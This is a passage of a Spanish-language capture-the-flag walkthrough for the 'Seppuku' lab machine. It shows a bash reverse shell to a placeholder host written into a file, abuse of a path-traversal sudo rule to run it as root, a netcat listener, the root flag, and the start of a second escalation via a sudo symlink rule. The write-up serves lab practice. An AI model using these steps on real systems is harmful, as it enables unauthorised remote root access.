 ```shell
nano bin

#Dentro de nano
#!/bin/bash

sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Y ahora llendonos al usuario samurai en `/tmp/` creamos un archivo sin funcionalidad...

```shell
nano script.sh

#Dentro de nano
#!/bin/bash

echo 'HOLA'
```

Por que si hacemos `sudo -l` en ese usuario veremos los siguiente...

```
Matching Defaults entries for samurai on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User samurai may run the following commands on seppuku:
    (ALL) NOPASSWD: /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

Por lo que hacemos lo siguiente teniendo todo esto...

```shell
sudo /../../../../../../home/tanto/.cgi_bin/bin /tmp/*
```

```shell
nc -lvnp <PORT>
```

Y con esto ya seriamos `root`, leemos la flag...

> root.txt (flag\_final)

```
{SunCSR_Seppuku_2020_X}
```

\=======================================================

### 2º forma escala de privilegios

En el usuario `sepuku` teniendo los permisos de `sudo -l`...

```
Matching Defaults entries for seppuku on seppuku:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User seppuku may run the following commands on seppuku:
    (ALL) NOPASSWD: /usr/bin/ln -sf /root/ /tmp/
```
